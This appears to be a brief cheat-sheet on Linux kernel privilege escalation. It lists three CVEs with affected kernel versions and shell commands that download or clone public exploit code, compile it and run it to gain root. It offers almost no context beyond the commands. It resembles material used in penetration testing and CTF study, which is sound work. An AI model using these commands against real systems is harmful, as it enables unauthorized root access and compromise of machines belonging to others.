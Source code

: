 ## CVE-2021-22555
Vulnerable kernel versions: 2.6 - 5.11

**Linux Kernel Version
```shell-session
uname -r
```

```shell-session
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

## CVE-2022-25636
Vulnerable kernel versions: 5.4 - 5.6.10

```shell-session
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```

## CVE-2023-32233
```shell-session
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```
